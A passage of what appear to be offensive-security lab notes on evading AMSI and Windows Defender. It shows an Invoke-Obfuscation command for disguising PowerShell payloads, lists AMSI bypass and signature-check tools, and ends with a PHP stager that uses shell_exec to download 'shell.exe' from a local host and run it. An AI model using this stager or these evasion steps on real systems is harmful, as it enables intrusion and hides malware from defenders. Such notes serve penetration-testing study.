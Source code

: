 It has a tree structure to obfuscation using `\\` as a delimiter between token commands, strings, whitespace and digit to the perform Obfuscation techniques with the PowerShell source code.   
```powershell
Invoke-Obfuscation -ScriptBlock {'Payload Here'} -Command 'Token\\String\\1,2,\\Whitespace\\1' -Quiet -NoExit
```


Dealing with AMSI-Defender-Bypass-Arms-Race
[https://github.com/IonizeCbr/AmsiPatchDetection](https://github.com/IonizeCbr/AmsiPatchDetection) - no description, 
Code Analysis
 - [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)
 -  [https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)


Coventant Templates by RastaMouse: [https://offensivedefence.co.uk/posts/covenant-profiles-templates/](https://offensivedefence.co.uk/posts/covenant-profiles-templates/).
#### On return

Develope, compile and execute for PowerShell shell for the personal objectives:
- https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs
- Test with  [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick (only tests against AMSI not Defender), but also requires environment replication, which takes hours and at this point that is somewhat overkill and redundant and waste of my time. 

```php
<?php
function get_stager() {
    $init = "powershell.exe";
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; 
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query;
}    
function execute_stager() {
    $init = "powershell.exe";
    $payload = ".\notashell.exe"; 
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query;
}
get_stager();
execute_stager();
die();   
?>
```






## Beyond Root